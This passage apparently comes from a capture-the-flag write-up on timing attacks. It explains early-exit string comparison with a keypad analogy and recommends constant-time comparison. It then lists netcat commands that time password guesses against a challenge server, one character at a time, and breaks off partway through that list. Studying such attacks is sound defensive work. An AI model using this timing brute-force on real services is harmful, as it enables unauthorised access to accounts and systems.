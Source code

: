 Timing attacks aren't just limited to cryptography related implementations like in this case. A simple string comparison in any language could make it vulnerable to a timing attack if the standard methods for string comparison are used.  
If the thing you're comparing to needs to stay a secret you should use a comparison function with a fixed length. That is, keep checking each character for a match even if you already know it is wrong.

##### Example
A really simple and dumb example would be a numerical keypad controlling a door that checks each number entered and gives you an error as soon as it finds a number that doesn't match its preprogrammed sequence.  
You'd be able to enter 1111 2111...9111 and once the first number is correct it'd take it slightly longer to respond (or worse it'd not even wait for you to enter all the numbers and gives an error as soon as you press the digit).

When guessing the number to enter the building for a 4 digit code you'd need 10000 attempts (0000-9999) in the absolute worst case.  
But if it is vulnerable to a timing attack you'd only need 40 attempts at most (10 for each digit), significantly less.

Since this example describes an object you'd have physical access to, your time measurements could be very precise. The solution for the manufacturer would be to program its device to store all the entered numbers in a single number and compare them at the same time, which wouldn't cause a time variation when comparing a wrong sequence to a slightly less wrong sequence.

##### Our attack
Our attack will work the same way as the keypad example. We'll start with a wrong password aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, and change one character at a time until it takes longer to respond.

We could easily write a script to do this, but in this case it is so simple it might be easier to just do it manually than bother writing something.

We'll use the time command to measure the time it takes for the server to close the connection, and while we're doing it manually, we can still do it in bulk. Since we know the password is lowercase alphanumerical I simply pasted the following commands into my terminal in 1 go.

{% highlight bash %}{% raw %}
time ( echo "0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "1aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "2aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "3aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "4aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "5aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "6aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "7aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "8aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "9aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "baaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "caaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "daaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "eaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "faaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "gaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "haaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "iaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "jaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "kaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "laaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "maaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "oaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "paaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "qaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "raaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)
time ( echo "saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc 35.207.132.47 1337)